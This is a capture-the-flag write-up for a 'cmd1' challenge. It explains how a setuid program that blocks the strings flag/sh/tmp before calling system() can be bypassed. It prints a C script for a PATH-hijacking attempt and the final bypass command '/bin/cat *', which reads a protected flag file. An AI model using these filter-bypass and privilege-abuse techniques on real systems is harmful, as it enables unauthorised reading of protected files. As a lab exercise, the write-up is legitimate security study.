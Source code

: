 A third parameter can be passed to a program - argc, argv, and envp (list of environment variables), and it can be controlled with 
**#include <unistd.h>**

       **int execve(const char ***_pathname_**, char *const _Nullable** _argv_**[],**
                  **char *const _Nullable** _envp_**[]);**

cmd1 program looks like so:
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}

The program calls a seperate function called filter(), this function returns non-zero value if argv[1] contains flag/sh/tmp inside it and if not executes argv[1]. Before that the function putenv() is called and sets PATH environment variable to /thankyouverymuch or if PATH does not exist creates a new variable named PATH with that value.
When you type a shell command and it is not an absolute path, the program checks PATH environment variable for the program that was requested. Our goal is to execute cat /home/cmd1/flag somehow and to do that we can just create the path /thankyouverymuch, create a program inside it that is executable called XXXXX, and then just call "/home/cmd1/./cmd1 XXXXX". No filtered words are included so it will perform system(XXXXX) which will be searched in /thankyouverymuch and executed, XXXXX will just call system("cat /home/cmd1/flag") and so with the permissions of the owner the flag will be shown

I wanted to perform everything in one program that i created, compiled and put in /tmp so i used the following script:
#include <stdio.h>
#include <stdlib.h>
#include <sys/stat.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>

int main() {
    const char *dir_create = "mkdir -p /thankyouverymuch";
    const char *source_file = "/thankyouverymuch/XXXXX.c";
    const char *binary_file = "/thankyouverymuch/XXXXX";
    const char *source_code = 
        "#include <stdlib.h>\n"
        "int main() {\n"
        "    system(\"cat /home/cmd1/flag\");\n"
        "    return 0;\n"
        "}\n";

    system(dir_create);

    int fd = open(source_file, O_CREAT | O_WRONLY | O_TRUNC, 0644);
    if (fd < 0) {
        perror("Failed to create source file");
        exit(EXIT_FAILURE);
    }
    if (write(fd, source_code, strlen(source_code)) != (ssize_t)strlen(source_code)) {
        perror("Failed to write source file");
        close(fd);
        exit(EXIT_FAILURE);
    }
    close(fd);
    printf("Wrote source file: %s\n", source_file);

    char compile_cmd[256];
    snprintf(compile_cmd, sizeof(compile_cmd), "gcc -o %s %s", binary_file, source_file);
    if (system(compile_cmd) != 0) {
        perror("Compilation failed");
        exit(EXIT_FAILURE);
    }
    printf("Compiled binary: %s\n", binary_file);

    if (chmod(binary_file, 0755) != 0) {
        perror("Failed to set executable permissions");
        exit(EXIT_FAILURE);
    }
    printf("Set executable permissions on: %s\n", binary_file);

    if (system("/home/cmd1/cmd1 XXXXX") != 0) {
        perror("Failed to execute /home/cmd1/cmd1");
        exit(EXIT_FAILURE);
    }
    printf("Executed: /home/cmd1/cmd1 XXXXX\n");
    return 0;
}

But then i figured out that I do not have access to create that directory in any way so I just executed "/bin/cat *"

![[asdasdasdasdasd.png]]